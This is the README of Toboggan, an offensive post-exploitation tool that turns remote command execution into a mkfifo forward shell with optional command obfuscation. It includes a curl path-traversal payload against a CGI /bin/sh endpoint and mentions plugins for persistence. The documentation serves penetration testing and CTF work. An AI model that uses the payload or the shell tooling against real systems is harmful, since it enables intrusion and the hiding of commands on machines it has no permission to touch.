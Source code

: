 # Toboggan

🛝 Slide into post-exploitation from RCE with ease. Toboggan wraps your remote command execution into a upgradable dumb shell, sliding directly into post-exploitation phase. It allows you to fastly launch a `mkfifo` forward-shell inside a targeted Linux environment.

<p align="center">
    <img width="350" src="/media/toboggan-coin-nobg.png" alt="Toboggan Logo">
</p>

## Installation

Installing Toboggan is simple. You can install it directly from the repository:

```shell
pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
```

### Using [`pipx`](https://pypa.github.io/pipx/)

Be careful, it installs Python applications in isolated virtual environments, which means they do not have access to system-wide packages by default (like `psycopg2`).
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

If you want-it to use system site packages, pass `--system-site-packages` when installing via `pipx`:
```shell
pipx install --system-site-packages 'git+https://github.com/n3rada/toboggan.git'
```

## 🔍 What is an RCE Python Module?

A Remote Code Execution (RCE) module is a Python script that defines how commands are sent to and executed on a remote system. Toboggan uses this module to wrap and streamline post-exploitation command execution.

To be compatible with Toboggan, your module must define a function with the following exact signature:

```python
def execute(command: str, timeout: float) -> str:
    """
    Execute a command remotely and return the output.
    
    Args:
        command (str): The command to execute.
        timeout (float): Execution timeout.

    Returns:
        str: The command output.
    """
```

This function will be called internally by Toboggan to execute commands remotely. It uses [`modwrap`](https://pypi.org/project/modwrap/) under the hood.

### Considerations

Your `execute()` function must handle all quirks of the target system.

- If space characters need to be replaced (e.g., with `${IFS}`), handle that inside the function.
- If special encoding is required (e.g., `base64`, `hex`), apply it before sending.
- If the system echoes extra characters or wraps the output, sanitize it.
- If the remote interface is slow or unreliable, tune the timeout.

The goal is for Toboggan to call your `execute()` function with any arbitrary command and get the correct output, as if you typed it in a shell.

## Execution

Once installed, you can execute it using:
```shell
toboggan -m ~/phpexploit.py
```

When you are knowing what you are doing, you can also do:
```shell
toboggan -m ~/phpexploit.py --camouflage --fifo --os "linux"
```

It will start a FiFo named-pipe (a.k.a `mkfifo` shell, forward-shell) on `linux` (`--os`) remote system and obfuscating all commands (`--camouflage`) using the [hide.py](./toboggan/actions/hide/unix.py) actions.


### Wrap a shell command

If you are really lazy, you can directly wrap a shell command:
```shell
toboggan --exec-wrapper 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

### Proxy

You can forward to your favorite proxifier such as [`Squid`](https://www.squid-cache.org/) server using the `--proxy` parameter:

```shell
toboggan -m ~/phpexploit.py --proxy http://squideu.<something>.io:3128
```

### BurpSuite

To route traffic through Burp Suite:
```shell
toboggan -m ~/phpexploit.py --proxy
```

You can also directly import a Burp saved request that contains the `||cmd||` placeholder:
```shell
toboggan -r brequest
```

## 🏗️ Making Dumb Shells Smarter

### Named Pipes for Semi-Interactive Shells

Toboggan uses named pipes (FIFO - First In, First Out) for inter-process communication (IPC). Named pipes are particularly useful when working with RCE over limited channels like HTTP requests or restricted command execution interfaces. It uses a `mkfifo` command under the hood. Also known as forward-shell style.

This allows Toboggan to simulate pseudo-TTY behavior, even in restricted environments behind firewalls. To enable named pipe mode, use the `--fifo` flag:
```shell
toboggan -m ~/phpexploit.py --fifo
```

Toboggan will create a FIFO-based communication channel, allowing you to interact with the remote system in a more dynamic way (e.g., using `sudo -l`).

> [!WARNING]
> Ctrl+C not forwarded. Control characters only work in real TTY/PTY environments.


## 🛠️ Bring Your Own Actions (BYOA)

Actions in Toboggan are modular plugins that allow you to extend its functionality. Actions can automate common post-exploitation tasks, such as downloading files, executing scripts, or setting up persistent access. Custom actions should be placed in `~/.local/share/toboggan/actions` (Linux) or `%APPDATA%\toboggan\actions` (Windows).

## ⚠️ Disclaimer

Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments.

It is specifically crafted to be used in controlled environments, such as:
- Penetration testing labs (e.g., HackTheBox, OffSec exam scenarios).
- Personal lab setups designed for ethical hacking and security research.
- Penetration Testing or Red Team engagements with customer consent.

Misuse of this project may result in legal action. Please use this tool responsibly and in compliance with applicable laws and regulations.
